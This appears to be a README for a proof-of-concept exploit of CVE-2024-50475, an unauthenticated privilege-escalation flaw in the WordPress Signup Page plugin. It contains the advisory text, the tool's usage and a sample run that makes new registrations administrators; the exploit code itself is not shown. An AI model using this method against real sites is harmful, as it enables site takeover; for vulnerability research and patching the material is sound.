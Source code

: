 # CVE-2024-50475
Signup Page &lt;= 1.0 - Unauthenticated Arbitrary Options Update

# Description:
The Signup Page plugin for WordPress is vulnerable to unauthorized modification of data that can lead to privilege escalation due to a missing capability check in all versions up to, and including, 1.0. This makes it possible for unauthenticated attackers to update arbitrary options on the WordPress site. This can be leveraged to update the default role for registration to administrator and enable user registration for attackers to gain administrative user access to a vulnerable site.

```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-50475
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: signup-page
```

How to use
---

```
$ python3 CVE-2024-50475.py -h
usage: CVE-2024-50475.py [-h] -u URL [-f FIX]

CVE-2024-50475 | Signup Page <= 1.0 - Unauthenticated Arbitrary Options Update The Signup Page plugin for WordPress is vulnerable to unauthorized modification of data that can lead to privilege escalation due to a missing capability check in
all versions up to, and including, 1.0. This makes it possible for unauthenticated attackers to update arbitrary options on the WordPress site. This can be leveraged to update the default role for registration to administrator and enable user
registration for attackers to gain administrative user access to a vulnerable site.

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Website URL
  -f FIX, --fix FIX  Reset after Exploit
```

POC
---

```
$ python3 CVE-2024-50475.py -u http://kubernetes.docker.internal
Vulnerability check: http://kubernetes.docker.internal
Option set successfully: http://kubernetes.docker.internal/wp-admin/admin-ajax.php
You can now register a user as an admin user. Remember to run --fix yes after you have registered to prevent others exploiting the site
Option set successfully: http://kubernetes.docker.internal/wp-admin/admin-ajax.php
You can now register a user as an admin user. Remember to run --fix yes after you have registered to prevent others exploiting the site

```
